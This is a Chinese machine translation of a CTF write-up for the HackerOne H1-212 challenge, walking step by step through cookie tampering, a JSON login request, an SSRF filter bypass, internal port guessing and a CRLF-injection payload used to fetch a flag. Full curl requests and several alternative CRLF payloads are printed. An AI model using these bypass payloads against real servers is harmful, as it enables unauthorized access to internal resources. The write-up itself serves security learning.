







# FGTNY 行动🗽-解决 H1-212 CTF。

> 原文：<https://dev.to/edoverflow/operation-fgtny----solving-the-h1-212-ctf--5f33>

## 初步

一个有经验的工程师为世界上最大的公司之一工作。

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--TGpSzdu5--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://user-images.githubusercontent.com/18099289/32990101-a8d382e0-cd23-11e7-8b9f-d4fbcf8825c4.png)

这位工程师安装了一台服务器，并声称没有人能够侵入。

进入展品二:一个没有经验的孩子庆祝他们的生日，我(EdOverflow)。

[T2】](https://camo.githubusercontent.com/9526164484cd3b590119156eb5ce51852eb735a2/68747470733a2f2f692e67697068792e636f6d2f6d656469612f313044386a3245704e43584441342f3230302e676966)

队列[戏剧性的音乐](https://www.youtube.com/watch?v=pER7P06MNrg)。

## 第一步——经典的乔伯特挑战

走进这个 CTF，我知道乔伯特会再次使用同样的小伎俩，就像在[他以前的 CTF](https://edoverflow.com/2017/ctf-reversing-the-passwords/) 一样。务必仔细阅读挑战描述，寻找关键词。“acme.org”、“Apache”和“admin panel”立刻映入我的眼帘。在我的侦察过程中，我使用了 Jobert Abma 的[虚拟主机发现工具](https://github.com/jobertabma/virtual-host-discovery)，这并不需要任何暴力手段，正如 [HackerOne 说得很清楚](https://twitter.com/jobertabma/status/930273559946989569)。这时我发现管理面板位于 admin.acme.org 虚拟主机上。为了访问面板，我们需要将 admin.acme.org 地址设置为我们的`/etc/hosts`文件中给定的 IP `104.236.20.43`。

```
$ cat h1-212 
apache.%s
admin.%s
engineer.%s
hackerone.%s
$ ruby scan.rb --ip=104.236.20.43 --host=acme.org --wordlist=h1-212 
...
Found: admin.acme.org (200)
  date:
    Sun, 19 Nov 2017 12:00:05 GMT
  server:
    Apache/2.4.18 (Ubuntu)
  set-cookie:
    admin=no # 😱
  content-type:
    text/html; charset=UTF-8
...
$ sudo sh -c "echo '104.236.20.43 admin.acme.org' >> /etc/hosts" 
```

Enter fullscreen mode Exit fullscreen mode

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--4kYFAJNH--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://user-images.githubusercontent.com/18099289/32788392-6244361c-c959-11e7-8044-ab5323b9bd23.png)

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--rQMgzmkm--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://user-images.githubusercontent.com/18099289/32788339-402f41a2-c959-11e7-8ecc-c374401caccc.png)

我从其他参与者的评论中注意到，他们正在努力迈出第一步。问题似乎是他们过于关注页面的“Apache”方面。这也是 HackerOne 不得不提醒人们不要强行进入下一步的原因。这个挑战与目录暴力毫无关系。_(ツ)_/

## 第二步-茶壶🍵

接下来，我用一个轻量级的词汇表对 admin.acme.org 进行了 dirsearch。该工具发现了一个`index.php`文件及其下面的登录路径(`index.php/login`)。有一件事立刻引起了我的注意，那就是`admin` cookie 被设置为`no`。当将该值修改为`yes`并将请求方法更改为`POST`时，会返回一个`406 Not Acceptable`状态代码。

由于法律原因，我不会列出我的技术来弄清楚那个状态代码的意思，但是让我们只说我使用了一个非常高级的 Google Dork ( `site:hackerone.com 406 Not Acceptable`)来找到[这个报告](https://hackerone.com/reports/50658)，它表明请求必须在 JSON ( `Content-Type: application/json`)中。你没听到我说这些。

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--vr-3m9Nf--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://user-images.githubusercontent.com/18099289/32990226-15a65864-cd26-11e7-86e4-58ae264d870d.png)

因此，在使用高度先进的技术之后，我得到了一个新修改的请求，它使我能够向服务器发送请求。

```
$ curl 'http://admin.acme.org/index.php/login' -H 'Host: admin.acme.org' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Cookie: admin=yes' -H 'DNT: 1' -H 'Content-Type: application/json' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0' 
```

Enter fullscreen mode Exit fullscreen mode

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--55-OoAk7--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://user-images.githubusercontent.com/18099289/32786849-548f213e-c955-11e7-9ea0-020afcf24c44.png)

也许现在读者能理解本为什么取笑我们了。

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--FAuNeBOe--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://user-images.githubusercontent.com/18099289/32835727-8a00a4c0-ca07-11e7-892a-4914dc9067e6.png)

## 步骤 3 -服务器端请求伪造

提交上一节中的 POST 请求返回了一个 domain missing 错误，这表明请求体必须包含一些带有域属性和值(`{"domain":"hackerone.com"}`)的 JSON。

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--sZ3jUA7J--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://user-images.githubusercontent.com/18099289/32963072-12275c7c-cbcf-11e7-9631-ba656c6266e0.png)

这意味着当前我们试图利用的问题是服务器端请求伪造(SSRF)；我们的目标是检索内部文件，标志可能位于内部网络上。

## 第 4 步-第 1 部分-初步想法💡

我在`{"domain":""}`中指定主机名时收到的错误表明，为了实现我访问内部文件的目标，我需要绕过过滤器。我最初的想法是建立一个以结尾的域名。由于`{"error":{"domain":"incorrect value, .com domain expected"}}`错误消息，将它映射到一个环回地址。

## 中场休息——睡前🛏

在这个阶段已经很晚了，我决定去睡一会儿，为接下来的 4 个步骤做准备。躺在床上，我无法忘记 CTF 的挑战。乔伯特的笑声在背景中回荡，因为我的每一步都在我眼前循环。

> 这完全是 [@jobertabma](https://twitter.com/jobertabma?ref_src=twsrc%5Etfw) 和 [@NahamSec](https://twitter.com/NahamSec?ref_src=twsrc%5Etfw) 看着 [#h1212ctf](https://twitter.com/hashtag/h1212ctf?src=hash&ref_src=twsrc%5Etfw) 行动展开。我觉得他们太享受这个了。
> 
> —卢克·塔克(@卢克塔克)[2017 年 11 月 13 日](https://twitter.com/luketucker/status/930223468099936257?ref_src=twsrc%5Etfw)

## 步骤 4 -零件 2 -旁路

休息了一会儿后，第二天早上醒来，我兴奋地回到了正轨。这次的主要焦点是 Orange Tsai 的研究。"必须有某种方法绕过带有`@`字符的过滤器."，我心想。我之所以花了这么长时间绕过过滤器，是因为我添加了目的地而不是前缀(例如，`212.hackerone.com@127.0.0.1`)。因为后缀不是以. com 结尾。返回了“应为 com 域”错误。`#`、`?`、`&`人物都上了黑名单。因此，必须有一种方法绕过黑名单，在后缀中包含一个. com。正如我在上面所暗示的，诀窍是给目的地加上前缀如下:`localhost@212.hackerone.com`。通过发送一个包含这个有效负载的请求，服务器将用一个`read.php`标识符来响应，这个标识符包含来自被检索页面的 base64 编码的内容数据。

```
$ curl 'http://admin.acme.org/index.php/login' -H 'Host: admin.acme.org' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Cookie: admin=yes' -H 'DNT: 1' -H 'Content-Type: application/json' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0' --data-binary $'{\"domain\":\"localhost@212.hackerone.com\"}'

{"next":"\/read.php?id=1"}

$ curl 'http://admin.acme.org/read.php?id=1' -H 'Host: admin.acme.org' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Cookie: admin=yes' -H 'DNT: 1' -H 'Content-Type: application/json' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0'

{"data":""} # Blank, because the file being requested is empty. 
```

Enter fullscreen mode Exit fullscreen mode

## 第五步-端口扫描

这一步需要两个小 bash 脚本，一个请求每个单独的端口，另一个检索 ID 的内容。端口 1337 返回了一个不寻常的 404 响应，正如这个数字所表明的，乔伯特正在大笑。

忘记端口扫描位。我完全猜到端口是 1337，进入下一步。

```
$ curl 'http://admin.acme.org/index.php/login' -H 'Host: admin.acme.org' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Cookie: admin=yes' -H 'DNT: 1' -H 'Content-Type: application/json' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0' --data-binary $'{\"domain\":\"localhost:1337@212.hackerone.com\"}'

{"next":"\/read.php?id=2"}

$ curl 'http://admin.acme.org/read.php?id=2' -H 'Host: admin.acme.org' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Cookie: admin=yes' -H 'DNT: 1' -H 'Content-Type: application/json' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0'

{"data":"SG1tLCB3aGVyZSB3b3VsZCBpdCBiZT8K"}

$ echo 'SG1tLCB3aGVyZSB3b3VsZCBpdCBiZT8K' | base64 --decode

Hmm, where would it be? 
```

Enter fullscreen mode Exit fullscreen mode

请注意，我只需要两个身份证，下面的图片是 PS 的。

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--85uUpn-m--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://user-images.githubusercontent.com/18099289/32836550-76a462a6-ca0a-11e7-8a1e-53df538c4966.png)

## 第六步——大规模挫败和 CRLF

CRLF 和挫折有什么共同之处？我也不知道，直到我目睹了这最后一步。为了请求该标志，必须利用 CRLF 问题，迫使服务器忽略有效文件名之后的所有内容。正如我们稍后将会看到的，这让我非常吃惊。

我有一种感觉，旗帜将位于`/flag`，因为早些时候我在玩 IP 时发现了这个小宝石。

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--hrqcnFeB--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://user-images.githubusercontent.com/18099289/32990289-43304302-cd27-11e7-996d-da59b5f796ab.png)

这部分花了我很长时间，我不愿意承认。这种挫败感让我像这样盯着屏幕:

[T2】](https://camo.githubusercontent.com/ddc64da52be127f0c0abb710ff92eb1acbb971a4/68747470733a2f2f6d65646961312e74656e6f722e636f6d2f696d616765732f66303562336663373031373464356531326163643131663635653132303063612f74656e6f722e676966)

起初，我认为对`#`进行不同的编码会有助于让`/flag`之后的一切变得无用；即，该请求将检索`/flag`而不是`/flag@212...`。男孩是我错了！我在服务器上找到了所有可能的编码。所有这些都是手动的。在每一个失败的请求之后，我都能看到乔伯特在我的脑海里咯咯地笑着，他的监视器上显示着日志。

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--L8omKSJ0--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://user-images.githubusercontent.com/18099289/32785635-4d429576-c952-11e7-8f3d-4a849cdac9b9.png)

那个画面一直留在我的脑海里。"乔伯特在这里做了什么让事情变得对我越来越难？"，我在问自己。我一次又一次失败了。直到那时已经解决了 CTF 的亚帕雷给了我一个微妙的暗示，让我回到了正轨。他们说“CR”。“CR？”，我心想“CR 是什么？”。

[T2】](https://camo.githubusercontent.com/2de8830b806737d783559bc16e113e05fc6c5e64/68747470733a2f2f692e67697068792e636f6d2f6d656469612f3178594b55485250364e7664432f67697068792e676966)

# *圆盘划伤*...CRLF！

[T2】](https://camo.githubusercontent.com/75a104fc473eb371d4f7201870fd78f7aee93855/687474703a2f2f6769662d66696e6465722e636f6d2f77702d636f6e74656e742f75706c6f6164732f323031342f30382f4b65726d69742d7468652d46726f672d54616b65732d7468652d414c532d4963652d4275636b65742d4368616c6c656e67652e676966)

所以现在我需要使用 CR 和 LF 字符，看看服务器如何响应。这仍然需要一点点的尝试和错误(今年的轻描淡写)，但最终，我有一个 cURL 请求，它将返回一个有效的`read.php` ID 并请求`flag`文件名。

```
$ curl 'http://admin.acme.org/index.php/login' -H 'Host: admin.acme.org' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Cookie: admin=yes' -H 'DNT: 1' -H 'Content-Type: application/json' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0' --data-binary $'{\"domain\":\"localhost:1337/flag\\n\\r\\n\\r212.hackerone.com\"}' 
```

Enter fullscreen mode Exit fullscreen mode

现在我将加入一些奇特的乳胶公式来解释最后一步，看起来我懂数学。

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s---QCU5bal--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://user-images.githubusercontent.com/18099289/32990532-124af5a8-cd2b-11e7-8e43-0971327649ae.png)

[T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--wRx0pDeq--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://user-images.githubusercontent.com/18099289/32784209-7efdf820-c94e-11e7-8baf-c524bdf79ff4.png)

基本上，对于那些不懂数学的人来说，我想说的是，对于每个有效的 CRLF 返回的 ID ( ***i*** )，我们必须减去 2 才能检索 base64 编码的标志( ***f*** )。例如，如果我们得到`read.php?=34`，我们必须向`read.php?=32`发送一个 get 请求。这种行为非常不寻常，只有在您为服务器提供有效的 CRLF 旁路时才会发生。我猜想这是乔伯特的另一个工程师的聪明的小把戏，把黑客关闭。

```
$ curl 'http://admin.acme.org/read.php?id=32' -H 'Host: admin.acme.org' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Cookie: admin=yes' -H 'DNT: 1' -H 'Content-Type: application/json' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0'

{"data":"RkxBRzogQ0YsMmRzVlwvXWZSQVlRLlRERXBgdyJNKCVtVTtwOSs5RkR7WjQ4WCpKdHR7JXZTKCRnN1xTKTpmJT1QW1lAbmthPTx0cWhuRjxhcT1LNTpCQ0BTYip7WyV6IitAeVBiL25mRm5hPGUkaHZ7cDhyMlt2TU1GNTJ5OnovRGg7ezYK"}

$ echo 'RkxBRzogQ0YsMmRzVlwvXWZSQVlRLlRERXBgdyJNKCVtVTtwOSs5RkR7WjQ4WCpKdHR7JXZTKCRnN1xTKTpmJT1QW1lAbmthPTx0cWhuRjxhcT1LNTpCQ0BTYip7WyV6IitAeVBiL25mRm5hPGUkaHZ7cDhyMlt2TU1GNTJ5OnovRGg7ezYK' | base64 --decode

FLAG: CF,2dsV\/]fRAYQ.TDEp`w"M(%mU;p9+9FD{Z48X*Jtt{%vS($g7\S):f%=P[Y@nka=<tqhnF<aq=K5:BC@Sb*{[%z"+@yPb/nfFna<e$hv{p8r2[vMMF52y:z/Dh;{6 
```

Enter fullscreen mode Exit fullscreen mode

[T2】](https://camo.githubusercontent.com/27ac0e868cb26c3d24dc34fadb19fa9bf5c8f2ed/687474703a2f2f33312e6d656469612e74756d626c722e636f6d2f63326635396664386335623162373865623932613939393636353830393638322f74756d626c725f6e69746377675451636731746a326c6a386f315f3430302e676966)

## 将我的解决方案与其他竞争对手的进行比较

在将旗帜提交给 HackerOne 后，我帮助一些竞争对手回到正轨，甚至主动提出审查他们的评论。这样做的美妙之处在于，你不仅能与同事建立友谊，还能深入了解其他人可能难以涉足的领域。有趣的是，CRLF 步骤可以用不同的方法解决。为了让读者对这些 CRLF 有效载荷有一个更好的了解，我把这个部分放在了一起，包含了让我印象深刻的有效载荷，包括我的基本描述。

```
@TomNomNom
----------------
Payload: localhost:1337/flag\u000a212.something.com
Description: Tom demonstrated that it was possible to accomplish the same solution as I had arrived to by simply using the Unicode value. I had come across this while playing around with different encodings of # as mentioned in section 6.

@Alyssa_Herrera_ & @streaak
---------------------------------
Payload: 212.\nlocalhost:80\n.com & 212\n127.0.0.1\n.com respectively.
Description: These particular CRLF payloads caught me by surprise. I had not thought of simply surrounding the vital part of the URL with line feed characters. 
```

Enter fullscreen mode Exit fullscreen mode

## 结论——我学到了什么？

*   这个 CTF 真的教会了我为了增加影响力而连锁问题的重要性。回过头来看，这些步骤中的任何一个都可能出现在现实世界的黑客场景中，如果我在任何一点上停下来，我就会错过一个很好的机会和回报。
*   这些挑战也让我明白，如果你被困在某个地方，请求别人推一把也无妨。这一点对于虫子赏金猎人来说尤其重要。在某种程度上，我们应该能够自己解决大部分问题，但是当其他方法都失败时，不要害怕向别人寻求帮助。
*   仔细阅读所有内容。虽然我在上一次 CTF 中学到了这一点，但在这次 CTF 中，我再次意识到记细节的重要性。
*   记得偶尔休息一下。当你在休息和休息之后回到正轨时，你能取得的成就是惊人的。
*   记笔记！这样，当你走错路时，你可以很容易地回到你离开的地方。我走了很多条路，每次我都会记下我的思考过程。这在撰写本文档时也特别有帮助。
*   这次 CTF 也给了我一个机会来使用我从乔伯特以前的 CTF 中学到的新技能，并对它们进行测试。这表明我在不断进步和学习。

* * *

# 参考文献

[1][美国网络/NBCU 拍摄]。(未注明)。检索于 2017 年 11 月 19 日，发自[http://www.usanetwork.com/mrrobot](http://www.usanetwork.com/mrrobot)

费城总是阳光明媚。(未注明)。FXX。检索时间 2017 年 11 月 19 日。

[3] Pai，R. (2014 年 4 月 16 日)。反射文件下载攻击允许攻击者“上传”可执行文件到 hackerone.com 域。检索于 2017 年 11 月 19 日，发自[https://hackerone.com/reports/50658](https://hackerone.com/reports/50658)

[4] *更茶*[图片]。(2017 年 11 月 19 日)。立顿/迪士尼。

[5][迪士尼的动画形象]。(未注明)。检索时间 2017 年 11 月 19 日。

[6][照片]。(未注明)。哈克罗尼公司。

[7，8，9][迪士尼的动画形象]。(未注明)。检索时间 2017 年 11 月 19 日。